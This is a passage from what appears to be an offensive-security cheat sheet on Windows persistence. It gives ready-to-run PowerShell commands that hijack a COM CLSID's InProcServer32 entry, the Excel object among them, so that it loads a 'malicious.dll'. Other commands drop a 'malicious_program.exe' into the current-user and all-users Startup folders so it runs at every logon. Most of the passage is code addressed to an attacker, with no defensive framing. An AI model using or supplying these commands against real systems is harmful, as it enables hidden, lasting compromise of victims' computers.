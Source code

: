 #### Hijacking an Existing CLSID for DLL Execution
You can hijack a CLSID of a legitimate COM object and modify its properties to load a malicious DLL. This forces the system to load your malicious DLL instead of the intended one:
```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{<GUID>}\InProcServer32" -Name "(Default)" -Value "C:\path\to\malicious.dll"
```
This will execute the malicious DLL whenever the system or an application attempts to invoke this CLSID.

#### Example - Hijack COM Object for Persistence
Hijack a CLSID of a commonly used COM object (such as that of an Office application) and point it to a malicious DLL:
```powershell
$regPath = "HKCU:\Software\Classes\CLSID\{00020813-0000-0000-C000-000000000046}\InprocServer32"  # Example CLSID for Excel Application
Set-ItemProperty -Path $regPath -Name "(Default)" -Value "C:\path\to\malicious.dll"
```
Whenever the Excel COM object is invoked, your DLL will be executed.

# Startup Folders

#### Locating Startup Folders
If a user or group has write access to a startup folder, you can add a malicious executable that will automatically run when the system starts.
- For current user startup (this applies only to the logged-in user):
    ```powershell
    $StartupFolder = $env:APPDATA + "\Microsoft\Windows\Start Menu\Programs\Startup"
    Write-Host "Current User Startup Folder: $StartupFolder"
    ```
- For all users startup (this applies to all users on the machine):
    ```powershell
    $StartupFolderAllUsers = $env:ALLUSERSPROFILE + "\Microsoft\Windows\Start Menu\Programs\Startup"
    Write-Host "All Users Startup Folder: $StartupFolderAllUsers"
    ```

#### Dropping a Payload in the Startup Folder
If you have write access to the appropriate startup folder, you can drop a malicious executable or script that will be executed when the system starts or when a user logs in.
- Copy an Executable to the Current User's Startup Folder:
	```powershell
	Copy-Item "<path_to_executable>" "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious_program.exe"
	```
- Copy an Executable to the All Users' Startup Folder:
	```powershell
	Copy-Item "<path_to_executable>" "$env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\Startup\malicious_program.exe"
	```

This method places the executable in the startup folder, which ensures it runs whenever the target user or any user logs into the system.
